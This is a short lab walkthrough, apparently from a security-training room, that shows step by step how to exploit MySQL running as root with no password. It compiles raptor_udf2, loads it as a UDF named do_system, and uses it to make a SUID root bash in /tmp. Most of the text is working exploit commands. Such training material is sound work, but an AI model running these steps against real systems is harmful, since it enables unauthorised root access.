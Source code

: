 Change into the /home/user/tools/mysql-udf directory:

`cd /home/user/tools/mysql-udf`

Compile the raptor_udf2.c exploit code using the following commands:

`gcc -g -c raptor_udf2.c -fPIC   gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc   `

Connect to the MySQL service as the root user with a blank password:

`mysql -u root`  

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:

`use mysql;   create table foo(line blob);   insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));   select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';   create function do_system returns integer soname 'raptor_udf2.so';`

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

`select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`

Exit out of the MySQL shell (type **exit** or **\q** and press **Enter**) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

**Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!**

`rm /tmp/rootbash   exit`